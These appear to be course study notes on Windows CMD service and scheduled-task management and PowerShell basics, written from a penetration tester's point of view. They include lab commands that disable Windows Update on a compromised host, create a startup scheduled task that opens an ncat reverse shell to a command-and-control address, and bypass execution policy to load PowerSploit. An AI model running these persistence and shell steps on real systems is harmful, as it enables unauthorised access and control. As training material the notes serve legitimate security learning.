        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 34908
        FLAGS              :


C:\WINDOWS\system32> sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### Modifying Services

In addition to being able to start and stop services, we can also attempt to modify existing services as well. This is where attackers can thrive as we try to modify existing services to serve whatever purpose we need them to. In some cases, we can change them to be disabled at startup or modify the service's path to the binary itself.

To configure services, we must use the config parameter in sc. This will allow us to modify the values of existing services, regardless if they are currently running or not. All changes made with this command are reflected in the Windows registry as well as the database for Service Control Manager (SCM). Remember that all changes to existing services will only fully update after restarting the service.

Note: It is important to be aware that modifying existing services can effectively take them out permanently as any changes made are recorded and saved in the registry, which can persist on reboot. Please exercise caution when modifying services in this manner.

With all this information out of the way, let's try to take out Windows Updates (`wuauserv` and `bits`)for our current compromised host.

```PowerShell
# Note: this requires elevated privileges, standar users don't have permissions on these services

C:\WINDOWS\system32> sc query wuauserv

SERVICE_NAME: wuauserv
        TYPE               : 30  WIN32
        STATE              : 1  STOPPED # its stopped
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


C:\WINDOWS\system32> sc query bits

SERVICE_NAME: bits
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING # it s running, we can issue a stop
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_PRESHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

# stopping
C:\WINDOWS\system32> sc stop bits

SERVICE_NAME: bits
        TYPE               : 30  WIN32
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x0

# Disabling at start, use start= auto to enable them back
C:\WINDOWS\system32> sc config wuauserv start= disabled

[SC] ChangeServiceConfig SUCCESS


C:\WINDOWS\system32> sc config bits start= disabled

[SC] ChangeServiceConfig SUCCESS

# Verifying they're disabled by trying to start them
C:\WINDOWS\system32> sc start wuauserv 

[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.

C:\WINDOWS\system32> sc start bits

[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
```

### Using Tasklist

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist) is a command line tool that gives us a list of currently running processes on a local or remote host. However, we can utilize the `/svc` parameter to provide a list of services running under each process on the system. Let's look at some of the output this can provide.

```
C:\htb> tasklist /svc


Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                       108 N/A
smss.exe                       412 N/A
csrss.exe                      612 N/A
wininit.exe                    684 N/A
csrss.exe                      708 N/A
services.exe                   768 N/A
lsass.exe                      796 KeyIso, SamSs, VaultSvc
winlogon.exe                   856 N/A
svchost.exe                    984 BrokerInfrastructure, DcomLaunch, PlugPlay,
                                   Power, SystemEventsBroker
fontdrvhost.exe               1012 N/A
fontdrvhost.exe               1020 N/A
svchost.exe                    616 RpcEptMapper, RpcSs
svchost.exe                    996 LSM
dwm.exe                       1068 N/A
svchost.exe                   1236 CoreMessagingRegistrar
svchost.exe                   1244 lmhosts
svchost.exe                   1324 NcbService
svchost.exe                   1332 TimeBrokerSvc
svchost.exe                   1352 Schedule
<SNIP>
```

### Using Net Start

[Net start](https://ss64.com/nt/net-service.html) is a very simple command that will allow us to quickly list all of the current running services on a system. In addition to net start, there is also `net stop`, `net pause`, and `net continue`. These will behave very similarly to `sc` as we can provide the name of the service afterward and be able to perform the actions specified in the command against the service that we provide.

```
C:\htb> net start

These Windows services are started:

   Application Information
   AppX Deployment Service (AppXSVC)
   AVCTP service
   Background Tasks Infrastructure Service
   Base Filtering Engine
   BcastDVRUserService_3321a
   Capability Access Manager Service
   cbdhsvc_3321a
   CDPUserSvc_3321a
   Client License Service (ClipSVC)
   CNG Key Isolation
   COM+ Event System
   COM+ System Application
   Connected Devices Platform Service
   Connected User Experiences and Telemetry
   CoreMessaging
   Credential Manager
   Cryptographic Services
   Data Usage
   DCOM Server Process Launcher
   Delivery Optimization
   Device Association Service
   DHCP Client
   <SNIP>
```

### Using WMIC (deprecated)

Last but not least, we have [WMIC](https://ss64.com/nt/wmic.html). The Windows Management Instrumentation Command (`WMIC`) allows us to retrieve a vast range of information from our local host or host(s) across the network. The versatility of this command is wide in that it allows for pulling such a wide arrangement of information.

```
C:\htb> wmic service list brief

ExitCode  Name                                      ProcessId  StartMode  State    Status
1077      AJRouter                                  0          Manual     Stopped  OK
1077      ALG                                       0          Manual     Stopped  OK
1077      AppIDSvc                                  0          Manual     Stopped  OK
0         Appinfo                                   5016       Manual     Running  OK
1077      AppMgmt                                   0          Manual     Stopped  OK
1077      AppReadiness                              0          Manual     Stopped  OK
1077      AppVClient                                0          Disabled   Stopped  OK
0         AppXSvc                                   9996       Manual     Running  OK
1077      AssignedAccessManagerSvc                  0          Manual     Stopped  OK
0         AudioEndpointBuilder                      2076       Auto       Running  OK
0         Audiosrv                                  2332       Auto       Running  OK
1077      autotimesvc                               0          Manual     Stopped  OK
1077      AxInstSV                                  0          Manual     Stopped  OK
1077      BDESVC                                    0          Manual     Stopped  OK
0         BFE                                       2696       Auto       Running  OK
0         BITS                                      0          Manual     Stopped  OK
0         BrokerInfrastructure                      984        Auto       Running  OK
1077      BTAGService                               0          Manual     Stopped  OK
0         BthAvctpSvc                               4448       Manual     Running  OK
1077      bthserv                                   0          Manual     Stopped  OK
0         camsvc                                    5676       Manual     Running  OK
0         CDPSvc                                    4724       Auto       Running  OK
1077      CertPropSvc                               0          Manual     Stopped  OK
0         ClipSVC                                   9156       Manual     Running  OK
1077      cloudidsvc                                0          Manual     Stopped  OK
0         COMSysApp                                 3668       Manual     Running  OK
0         CoreMessagingRegistrar                    1236       Auto       Running  OK
0         CryptSvc                                  2844       Auto       Running  OK
<SNIP>
```
## Schedueled tasks

#### Query Syntax
|Action | Parameter | Description|
|-------|-----------|------------|
|`Query` | | Performs a local or remote host search to determine what scheduled tasks exist. Due to permissions, not all tasks may be seen by a normal user.|
| |	`/fo` | Sets formatting options. We can specify to show results in the `Table`, `List`, or `CSV` output.|
| |	`/v` | Sets verbosity to on, displaying the `advanced properties` set in displayed tasks when used with the List or CSV output parameter.|
| |	`/nh` | Simplifies the output using the Table or CSV output format. This switch `removes` the `column headers`.|
| |	`/s` | Sets the DNS name or IP address of the host we want to connect to. `Localhost` is the `default` specified. If `/s` is utilized, we are connecting to a remote host and must format it as "\\host".|
| |	`/u` | This switch will tell schtasks to run the following command with the `permission set` of the `user` specified.|
| |	`/p` | Sets the `password` in use for command execution when we specify a user to run the task. Users must be members of the Administrator's group on the host (or in the domain). The `u` and `p` values are only valid when used with the `s` parameter.|
|

We can view the tasks that already exist on our host by utilizing the schtasks command like so:
```
C:\htb> SCHTASKS /Query /V /FO list

Folder: \  
HostName:                             DESKTOP-Victim
TaskName:                             \Check Network Access
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-Victim\htb-admin
Task To Run:                          C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In:                             N/A
Comment:                              quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```

#### Create a new scheduled Task

|Action |Parameter |Description|
|-------|----------|-----------|
|`Create` ||Schedules a task to run.|
||`/sc` |Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.|
||`/tn` |Sets the name for the task we are building. Each task must have a unique name.|
||`/tr` |Sets the trigger and task that should be run. This can be an executable, script, or batch file.|
||`/s` |Specify the host to run on, much like in Query.|
||`/u` |Specifies the local user or domain user to utilize|
||`/p` |Sets the Password of the user-specified.|
||`/mo` |Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.|
||`/rl` |Allows us to limit the privileges of the task. Options here are `limited` access and `Highest`. `Limited` is the default value.|
||`/z` |Will set the task to be deleted after completion of its actions.|

At minimum we must specify:

- /create : to tell it what we are doing
- /sc : we must set a schedule
- /tn : we must set the name
- /tr : we must give it an action to take

#### New Task Creation example

```
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

Start a remote shell on each startup to ensure we always have access if host is up. In this can it will connect to out command and control framework (Metasploit, Empire, etc.) and give us shell access.

####Change Syntax

|Action |Parameter |Description|
|----- |----- |-----|
|Change ||Allows for modifying existing scheduled tasks.|
||/tn |Designates the task to change|
||/tr |Modifies the program or action that the task runs.|
||/ENABLE |Change the state of the task to Enabled.|
||/DISABLE |Change the state of the task to Disabled.|

Say we found the has of the local admin password and we want to spawn our Ncat shell. If anything happens, we can modify the task like so to add in the credentials for it to use.

```
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.


C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```

#### Delete the Scheduled task

|Action |Parameter |Description|
|-------|----------|-----------|
|Delete ||Remove a task from the schedule|
||/tn |Identifies the task to delete.|
||/s |Specifies the name or IP address to delete the task from.|
||/u |Specifies the user to run the task as.|
||/p |Specifies the password to run the task as.|
||/f |Stops the confirmation warning.|

```
C:\htb> schtasks /delete  /tn "My Secret Task" 

WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```

# PowerShell

## CMD vs PowerShell

|Feature |CMD |PowerShell|
|--------|----|----------|
|Language |Batch and basic CMD commands only. |PowerShell can interpret Batch, CMD, PS cmdlets, and aliases.|
|Command utilization |The output from one command cannot be passed into another directly as a structured object, due to the limitation of handling the text output. |The output from one command can be passed into another directly as a structured object resulting in more sophisticated commands.|
|Command Output |Text only. |PowerShell outputs in object formatting.|
|Parallel Execution |CMD must finish one command before running another. |PowerShell can multi-thread commands to run in parallel.|

[PowerShell](https://learn.microsoft.com/en-us/powershell/) has become increasingly prominent among IT and Infosec professionals. It has widespread utility for System Administrators, Penetration Testers, SOC Analysts, and many other technical disciplines where ever Windows systems are administered. Consider IT admins and Windows system administrators administering IT environments made up of Windows servers, desktops (Windows 10 & 11), Azure, and Microsoft 365 cloud-based applications. Many of them are using PowerShell to automate tasks they must accomplish daily. Among some of these tasks are:

- Provisioning servers and installing server roles
- Creating Active Directory user accounts for new employees
- Managing Active Directory group permissions
- Disabling and deleting Active Directory user accounts
- Managing file share permissions
- Interacting with Azure AD and Azure VMs
- Creating, deleting, and monitoring directories & files
- Gathering information about workstations and servers
- Setting up Microsoft Exchange email inboxes for users (in the cloud &/or on-premises)

You can open powershell with the applications
 - Windows PowerShell
 - Windows Terminal
 - Windows Powershell ISE (Powershell IDE)
 - cmd, the typing the `powershell` command

Get help with [Get-Help](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/get-help?view=powershell-7.5&viewFallbackFrom=powershell-7.2):
```PowerShell
PS C:\Users\htb-student> Get-Help Test-Wsman

NAME
    Test-WSMan

SYNTAX
    Test-WSMan [[-ComputerName] <string>] [-Authentication {None | Default | Digest | Negotiate | Basic | Kerberos |
    ClientCertificate | Credssp}] [-Port <int>] [-UseSSL] [-ApplicationName <string>] [-Credential <pscredential>]
    [-CertificateThumbprint <string>]  [<CommonParameters>]


ALIASES
    None


REMARKS
    Get-Help cannot find the Help files for this cmdlet on this computer. It is displaying only partial help.
        -- To download and install Help files for the module that includes this cmdlet, use Update-Help.
        -- To view the Help topic for this cmdlet online, type: "Get-Help Test-WSMan -Online" or
           go to https://go.microsoft.com/fwlink/?LinkId=141464.
```

Notice the `-online` command. You can use this to get the oneline documentation of a command with say `Get-Help Test-Wsman -online` for the Test-WSMan microsoft documentation.

We can also use a helpful cmdlet called [Update-Help](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/update-help?view=powershell-7.2) to ensure we have the most up-to-date information for each cmdlet on the Windows system.

### Getting Around in PowerShell

(PS stands for PowerShell.)
```PowerShell
# Where are we
PS C:\Users\DLarusso> Get-Location

Path
----
C:\Users\DLarusso


#List directory contents
PS C:\htb> Get-ChildItem 

Directory: C:\Users\DLarusso


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/26/2021  10:26 PM                .ssh
d-----         1/28/2021   7:05 PM                .vscode
d-r---         1/27/2021   2:44 PM                3D Objects
d-r---         1/27/2021   2:44 PM                Contacts
d-r---         9/18/2022  12:35 PM                Desktop
d-r---         9/18/2022   1:01 PM                Documents
d-r---         9/26/2022  12:27 PM                Downloads
d-r---         1/27/2021   2:44 PM                Favorites
d-r---         1/27/2021   2:44 PM                Music
dar--l         9/26/2022  12:03 PM                OneDrive
d-r---         5/22/2022   2:00 PM                Pictures


# Move to a directory (can be done with relative or absolute path)
PS C:\htb>  Set-Location .\Documents\

PS C:\Users\tru7h\Documents> Get-Location

Path
----
C:\Users\DLarusso\Documents


# Display file contents
PS C:\htb> Get-Content Readme.md  

# ![logo][] PowerShell

Welcome to the PowerShell GitHub Community!
PowerShell Core is a cross-platform (Windows, Linux, and macOS) automation and configuration tool/framework that works well with your existing tools and is optimized
for dealing with structured data (e.g., JSON, CSV, XML, etc.), REST APIs, and object models.
It includes a command-line shell, an associated scripting language and a framework for processing cmdlets. 

<SNIP> 
```

### Tips & Tricks for PowerShell Usage

```PowerShell
# list available commands
PS C:\htb> Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Add-AppPackage                                     2.0.1.0    Appx
Alias           Add-AppPackageVolume                               2.0.1.0    Appx
Alias           Add-AppProvisionedPackage                          3.0        Dism
Alias           Add-ProvisionedAppPackage                          3.0        Dism
Alias           Add-ProvisionedAppxPackage                         3.0        Dism
Alias           Add-ProvisioningPackage                            3.0        Provisioning
Alias           Add-TrustedProvisioningCertificate                 3.0        Provisioning
Alias           Apply-WindowsUnattend                              3.0        Dism
Alias           Disable-PhysicalDiskIndication                     2.0.0.0    Storage
Alias           Disable-StorageDiagnosticLog                       2.0.0.0    Storage
Alias           Dismount-AppPackageVolume                          2.0.1.0    Appx
Alias           Enable-PhysicalDiskIndication                      2.0.0.0    Storage
Alias           Enable-StorageDiagnosticLog                        2.0.0.0    Storage
Alias           Flush-Volume                                       2.0.0.0    Storage
Alias           Get-AppPackage                                     2.0.1.0    Appx

<SNIP>  

# using the ver-noun convention, we can search for either, eg:
PS C:\htb> Get-Command -verb get

<SNIP>
Cmdlet          Get-Acl                                            3.0.0.0    Microsoft.Pow...
Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.Pow...
Cmdlet          Get-AppLockerFileInformation                       2.0.0.0    AppLocker
Cmdlet          Get-AppLockerPolicy                                2.0.0.0    AppLocker
Cmdlet          Get-AppvClientApplication                          1.0.0.0    AppvClient  
<SNIP>  

PS C:\htb> Get-Command -noun windows*  

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Apply-WindowsUnattend                              3.0        Dism
Function        Get-WindowsUpdateLog                               1.0.0.0    WindowsUpdate
Cmdlet          Add-WindowsCapability                              3.0        Dism
Cmdlet          Add-WindowsDriver                                  3.0        Dism
Cmdlet          Add-WindowsImage                                   3.0        Dism
Cmdlet          Add-WindowsPackage                                 3.0        Dism
Cmdlet          Clear-WindowsCorruptMountPoint                     3.0        Dism
Cmdlet          Disable-WindowsErrorReporting                      1.0        WindowsErrorR...
Cmdlet          Disable-WindowsOptionalFeature                     3.0        Dism
Cmdlet          Dismount-WindowsImage                              3.0        Dism
Cmdlet          Enable-WindowsErrorReporting                       1.0        WindowsErrorR...
Cmdlet          Enable-WindowsOptionalFeature                      3.0        Dism

# History
# By default, PowerShell keeps the last 4096 commands entered, but this setting can be modified by changing the $MaximumHistoryCount variable.
# By default, Get-History will only show the commands that have been run during this active session
PS C:\htb> Get-History

 Id CommandLine
  -- -----------
   1 Get-Command
   2 clear
   3 get-command -verb set
   4 get-command set*
   5 clear
   6 get-command -verb get
   7 get-command -noun windows
   8 get-command -noun windows*
   9 get-module
  10 clear
  11 get-history
  12 clear
  13 ipconfig /all
  14 arp -a
  15 get-help
  16 get-help get-module


#read from PSReadline to get full history
PS C:\htb> get-content C:\Users\DLarusso\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

get-module
Get-ChildItem Env: | ft Key,Value
Get-ExecutionPolicy
clear
ssh administrator@10.172.16.110.55
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://download.sysinternals.com/files/PSTools.zip')"
Get-ExecutionPolicy

<SNIP>
# One great feature of PSReadline from an admin perspective is that it will automatically attempt to filter any entries that include the strings: password, asplaintext, token, apikey, secret.


# Clear screen
Clear-Host
clear
cls

# Show command alias
PS C:\Windows\system32> Get-Alias

CommandType     Name                                               Version    Source
                                                                              
-----------     ----                                               -------    -----
Alias           % -> ForEach-Object
Alias           ? -> Where-Object
Alias           ac -> Add-Content
Alias           asnp -> Add-PSSnapin
Alias           cat -> Get-Content
Alias           cd -> Set-Location
Alias           CFS -> ConvertFrom-String                          3.1.0.0    Mi...
Alias           chdir -> Set-Location
Alias           clc -> Clear-Content
Alias           clear -> Clear-Host
Alias           clhy -> Clear-History
Alias           cli -> Clear-Item
Alias           clp -> Clear-ItemProperty
Alias           cls -> Clear-Host
Alias           clv -> Clear-Variable
Alias           cnsn -> Connect-PSSession
Alias           compare -> Compare-Object
Alias           copy -> Copy-Item
Alias           cp -> Copy-Item
Alias           cpi -> Copy-Item
Alias           cpp -> Copy-ItemProperty
Alias           curl -> Invoke-WebRequest
Alias           cvpa -> Convert-Path
Alias           dbp -> Disable-PSBreakpoint
Alias           del -> Remove-Item
Alias           diff -> Compare-Object
Alias           dir -> Get-ChildItem

<SNIP>

# Create Alias
PS C:\Windows\system32> Set-Alias -Name gh -Value Get-Help
```

### Helpful alias

|Alias |Description|
|------|------------|
|pwd |gl can also be used. This alias can be used in place of Get-Location.|
|ls |dir and gci can also be used in place of ls. This is an alias for Get-ChildItem.|
|cd |sl and chdir can be used in place of cd. This is an alias for Set-Location.|
|cat |type and gc can also be used. This is an alias for Get-Content.|
|clear |Can be used in place of Clear-Host.|
|curl |Curl is an alias for Invoke-WebRequest, which can be used to download files. wget can also be used.|
|fl and ft |These aliases can be used to format output into list and table outputs.|
|man |Can be used in place of help.|
| ?  | Where-Object|
| %  | ForEach-Object |

### Hotkeys

|HotKey |Description|
|-------|-----------|
|CTRL+R |It makes for a searchable history. We can start typing after, and it will show us results that match previous commands.|
|CTRL+L |Quick screen clear.|
|CTRL+ALT+Shift+? |This will print the entire list of keyboard shortcuts PowerShell will recognize.|
|Escape |When typing into the CLI, if you wish to clear the entire line, instead of holding backspace, you can just hit escape, which will erase the line.|
|↑ |Scroll up through our previous history.|
|↓ |Scroll down through our previous history.|
|F7 |Brings up a TUI with a scrollable interactive history from our session.|


## All About Cmdlets and Modules

#### Cmdlets

A [cmdlet](https://learn.microsoft.com/en-us/powershell/scripting/lang-spec/chapter-13?view=powershell-7.5&viewFallbackFrom=powershell-7.2) as defined by Microsoft is:

"`a single-feature command that manipulates objects in PowerShell.`"

Cmdlets follow a Verb-Noun structure which often makes it easier for us to understand what any given cmdlet does. With Test-WSMan, we can see the verb is Test and the Noun is Wsman.

### PowerShell modules

A [PowerShell module](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/understanding-a-windows-powershell-module?view=powershell-7.2) is structured PowerShell code that is made easy to use & share. As mentioned in the official Microsoft docs, a module can be made up of the following:
- Cmdlets
- Script files
- Functions
- Assemblies
- Related resources (manifests and help files)

Through this section, we are going to use the PowerView project to examine what makes up a module and how to interact with them. `PowerView.ps1` is part of a collection of PowerShell modules organized in a project called [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) created by the [PowerShellMafia](https://github.com/PowerShellMafia/PowerSploit) to provide penetration testers with many valuable tools to use when testing Windows Domain/Active Directory environments.

### Using PowerShell modules

```PowerShell
PS C:\htb> Get-Module 

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Con...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.7.3.1    posh-git                            {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expan...
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...


PS C:\htb> Get-Module -ListAvailable 

 Directory: C:\Users\tru7h\Documents\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     1.1.0      PSSQLite                            {Invoke-SqliteBulkCopy, Invoke-SqliteQuery, New-SqliteConn...


    Directory: C:\Program Files\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     1.0.1      Microsoft.PowerShell.Operation.V... {Get-OperationValidation, Invoke-OperationValidation}
Binary     1.0.0.1    PackageManagement                   {Find-Package, Get-Package, Get-PackageProvider, Get-Packa...
Script     3.4.0      Pester                              {Describe, Context, It, Should...}
Script     1.0.0.1    PowerShellGet                       {Install-Module, Find-Module, Save-Module, Update-Module...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Set-PSReadLineKeyHandler, Remov...

# Look at Import-Module for how to load a module
PS C:\Users\htb-student> Get-Help Import-Module

NAME
    Import-Module

SYNOPSIS
    Adds modules to the current session.


SYNTAX
    Import-Module [-Assembly] <System.Reflection.Assembly[]> [-Alias <System.String[]>] [-ArgumentList
    <System.Object[]>] [-AsCustomObject] [-Cmdlet <System.String[]>] [-DisableNameChecking] [-Force] [-Function
    <System.String[]>] [-Global] [-NoClobber] [-PassThru] [-Prefix <System.String>] [-Scope {Local | Global}]
    [-Variable <System.String[]>] [<CommonParameters>]

    Import-Module [-Name] <System.String[]> [-Alias <System.String[]>] [-ArgumentList <System.Object[]>]
    [-AsCustomObject] [-CimNamespace <System.String>] [-CimResourceUri <System.Uri>] -CimSession
    <Microsoft.Management.Infrastructure.CimSession> [-Cmdlet <System.String[]>] [-DisableNameChecking] [-Force]
    [-Function <System.String[]>] [-Global] [-MaximumVersion <System.String>] [-MinimumVersion <System.Version>]
    [-NoClobber] [-PassThru] [-Prefix <System.String>] [-RequiredVersion <System.Version>] [-Scope {Local | Global}]
    [-Variable <System.String[]>] [<CommonParameters>]

<SNIP>

# Let's import the powersploit module to get the `Get-NetLocalgroup` cmdlet
PS C:\Users\htb-student\Desktop\PowerSploit> Import-Module .\PowerSploit.psd1
PS C:\Users\htb-student\Desktop\PowerSploit> Get-NetLocalgroup

ComputerName GroupName                           Comment
------------ ---------                           -------
WS01         Access Control Assistance Operators Members of this group can remotely query authorization attributes a...
WS01         Administrators                      Administrators have complete and unrestricted access to the compute...
WS01         Backup Operators                    Backup Operators can override security restrictions for the sole pu...
WS01         Cryptographic Operators             Members are authorized to perform cryptographic operations.
WS01         Distributed COM Users               Members are allowed to launch, activate and use Distributed COM obj...
WS01         Event Log Readers                   Members of this group can read event logs from local machine
WS01         Guests                              Guests have the same access as members of the Users group by defaul...
WS01         Hyper-V Administrators              Members of this group have complete and unrestricted access to all ...
WS01         IIS_IUSRS                           Built-in group used by Internet Information Services.
WS01         Network Configuration Operators     Members in this group can have some administrative privileges to ma...
WS01         Performance Log Users               Members of this group may schedule logging of performance counters,...
WS01         Performance Monitor Users           Members of this group can access performance counter data locally a...
WS01         Power Users                         Power Users are included for backwards compatibility and possess li...
WS01         Remote Desktop Users                Members in this group are granted the right to logon remotely
WS01         Remote Management Users             Members of this group can access WMI resources over management prot...
WS01         Replicator                          Supports file replication in a domain
WS01         System Managed Accounts Group       Members of this group are managed by the system.
WS01         Users                               Users are prevented from making accidental or intentional system-wi...


# if we have trouble with loading module (ie non imported ones) we can check our PSModulePath to check that it is indeed present
PS C:\Users\htb-student> $env:PSModulePath

C:\Users\htb-student\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
```

### Execution Policy

An essential factor to consider when attempting to use PowerShell scripts and modules is [PowerShell's execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2). As outlined in Microsoft's official documentation, an execution policy is not a security control. It is designed to give IT admins a tool to set parameters and safeguards for themselves.

```PowerShell
PS C:\Users\htb-student\Desktop\PowerSploit> Import-Module .\PowerSploit.psd1

Import-Module : File C:\Users\Users\htb-student\PowerSploit.psm1
cannot be loaded because running scripts is disabled on this system. For more information, see
about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\PowerSploit.psd1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand

# Check Execution Policy
PS C:\htb> Get-ExecutionPolicy 

Restricted  

# Changin execution policy
PS C:\htb> Set-ExecutionPolicy undefined 

# testing it out
PS C:\htb> Import-Module .\PowerSploit.psd1

Import-Module .\PowerSploit.psd1
PS C:\Users\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Check...
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, Conver...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Vari...
Script     3.0.0.0    PowerSploit                         {Add-Persistence, Add-ServiceDacl...
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PS...
```

Note: As a sysadmin, these kinds of changes are common and should always be reverted once we are done with work. As a pentester, us making a change like this and not reverting it could indicate to a defender that the host has been compromised. Be sure to check that we clean up after our actions. Another way we can bypass the execution policy and not leave a persistent change is to change it at the process level using `-scope`.

```PowerShell
# Changing execution policy by scope
PS C:\htb> Set-ExecutionPolicy -scope Process 
PS C:\htb> Get-ExecutionPolicy -list

Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process          Bypass
  CurrentUser       Undefined
 LocalMachine          Bypass  
```

By changing it at the Process level, our change will revert once we close the PowerShell session. More detail in this [blog post](https://www.netspi.com/blog/technical-blog/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/).

### Calling Cmdlets from within a module

```PowerShell
# list available aliases, commands, and functions an imported module brough to a session: Get-Command -Module <modulename>
PS C:\htb> Get-Command -Module PowerSploit

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Invoke-ProcessHunter                               3.0.0.0    PowerSploit
Alias           Invoke-ShareFinder                                 3.0.0.0    PowerSploit
Alias           Invoke-ThreadedFunction                            3.0.0.0    PowerSploit
Alias           Invoke-UserHunter                                  3.0.0.0    PowerSploit
Alias           Request-SPNTicket                                  3.0.0.0    PowerSploit
Alias           Set-ADObject                                       3.0.0.0    PowerSploit
Function        Add-Persistence                                    3.0.0.0    PowerSploit
Function        Add-ServiceDacl                                    3.0.0.0    PowerSploit
Function        Find-AVSignature                                   3.0.0.0    PowerSploit
Function        Find-InterestingFile                               3.0.0.0    PowerSploit
Function        Find-LocalAdminAccess                              3.0.0.0    PowerSploit
Function        Find-PathDLLHijack                                 3.0.0.0    PowerSploit
Function        Find-ProcessDLLHijack                              3.0.0.0    PowerSploit
